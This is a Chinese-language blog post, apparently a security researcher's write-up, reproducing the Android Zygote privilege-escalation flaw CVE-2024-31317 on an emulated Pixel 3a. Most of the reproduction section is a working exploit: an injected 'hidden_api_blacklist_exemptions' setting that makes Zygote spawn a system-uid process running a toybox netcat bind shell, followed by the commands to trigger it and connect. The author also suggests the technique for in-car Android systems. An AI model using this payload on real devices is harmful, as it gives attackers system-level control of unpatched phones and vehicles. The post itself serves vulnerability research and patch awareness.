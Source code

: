 #  【CVE-2024–31317】提权漏洞复现  
 网络安全知识   2025-07-17 13:45  
  
- 漏洞背景：Android 的 Zygote 进程负责启动新应用和系统进程。CVE-2024-31317 漏洞暴露了一个安全隐患，攻击者可以利用这个漏洞通过 Zygote 进程注入代码，从而获得系统权限执行恶意操作。  
  
- 影响范围：<=android 11  
  
- 漏洞危害：这个漏洞的利用不涉及内存的破坏，这意味着它可以在几乎任何运行Android 9或更高版本的设备上不加修改地工作，并且在重启后仍然有效。远比第一篇文章提到的  
CVE-2024-0044危害大。  
  
- 测试环境：win11+androidstudio Pixel3a Android9  
  
![](https://mmbiz.qpic.cn/mmbiz_png/oW25xOtgTwIkavaTGZ1GD4WXmxm7PeBBtBCwtxznl07EwKkW91eQN7Zt5WDQ3ibsvNYkRNwrA9g2dWjQtic4maMg/640?wx_fmt=png&from=appmsg "")  
  
- 复现过程：  
  
1.启动安卓studio模拟一个android 9 的Pixel 3a，开启它的adb接口  
  
2.测试机用adb链接模拟器  
  
![](https://mmbiz.qpic.cn/mmbiz_png/oW25xOtgTwIkavaTGZ1GD4WXmxm7PeBBI0b3HlFTesp3uFLmCPOBPhs3WQloHkOa7A2wMZ5bacouzuia9nPSAibg/640?wx_fmt=png&from=appmsg "")  
  
3.查看当前权限：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/oW25xOtgTwIkavaTGZ1GD4WXmxm7PeBBhRkJH3L8UprNEia4DBQCicQmrzz7FcwQH0yPZh1YBvkLp4iayVxxFasNA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/oW25xOtgTwIkavaTGZ1GD4WXmxm7PeBB8HWX7l30KhiazcIsxkdE2p7G9zkAaCkmPS7orOyE7t4bzcib1AGic5L8Q/640?wx_fmt=png&from=appmsg "")  
  
4.输入命令：  
```
am force-stop com.android.settings
```  
```
settings put global hidden_api_blacklist_exemptions "LClass1;->method1(
15
--runtime-args
--setuid=1000
--setgid=1000
--runtime-flags=2049
--mount-external-full
--target-sdk-version=29
--setgroups=3003
--nice-name=runnetcat
--seinfo=platform:su:targetSdkVersion=29:complete
--invoke-with
toybox nc -s 127.0.0.1 -p 1234 -L /system/bin/sh -l;
--instruction-set=arm
--app-data-dir=/data/
--package-name=com.android.settings
android.app.ActivityThread
"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/oW25xOtgTwIkavaTGZ1GD4WXmxm7PeBBuBvtq6MZtderanoWTQ58pSBhWMRaC9CINhn4libf9zkh4dFywy3NmiaQ/640?wx_fmt=png&from=appmsg "")  
  
  
此处注意，安卓模拟器的adb下没有开启nc命令的直接执行，上图中是通过  
toybox调用，  
busybox也行，给我的启示是，当测试车机时，可以用这两个命令尝试调用ncat转发流量  
  
5.编辑完隐藏api黑名单后，输入：  
```
am start -a android.settings.SETTINGS
```  
  
启动设置  
  
6.**尝试连接**  
 本地计算机（localhost  
）的 **1234 端口**  
。  
```
toybox nc localhost 1234
```  
  
此时，可以获得system权限：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/oW25xOtgTwIkavaTGZ1GD4WXmxm7PeBBg3B0NwcDjIjvWHgPooYL6zL5cHmtbk9ytwK90rsPSgYlSDqyQkJPJg/640?wx_fmt=png&from=appmsg "")  
- 处置措施：  
打谷歌补丁  
  
- 思考：  
市面上的汽车安卓系统，基本都会存在，如果oem不及时提供升级措施，便会成为潜在攻击链条中的关键一环  
  
